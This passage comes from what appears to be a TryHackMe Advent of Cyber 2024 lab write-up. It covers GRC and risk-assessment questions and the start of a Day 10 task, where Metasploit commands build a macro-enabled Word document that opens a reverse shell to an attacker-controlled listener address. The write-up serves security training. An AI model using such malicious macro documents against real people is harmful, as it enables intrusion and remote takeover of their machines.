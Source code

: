    ><details><summary>Click for answer</summary></details>

2. Are you interested in learning more about evasion? Take a look at theAV Evasion: Shellcoderoom.

### Day 9: Nine o'clock, make GRC fun, tell no one.

1. What does GRC stand for?

   The answer to this can be found in the text.

   ><details><summary>Click for answer</summary></details>

2. What is the flag you receive after performing the risk assessment?

   For this flag, we need to perform a risk assessment on three third party vendors. A review is done on your assessment to indicate how correct you assessment is.

   ><details><summary>Click for answer</summary></details>

3. If you enjoyed this task, feel free to check out theRisk Managementroom.

### Day 10: He had a brain full of macros, and had shells in his soul.

1. What is the flag value inside theflag.txtfile that’s located on the Administrator’s desktop?

   First we must create our macro enabled Word document using `msfconsole`.

   ```cmd
   msfconsole

   search office word
   use 15
   show options

   set LHOST 10.11.101.240
   set LPORT 1337
   ```

   Notice that it automatically switching to the correct payload.

   ![Create Document](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/adventofcyber2024/Advent_of_Cyber_2024_Day_10_Create_Document.png)
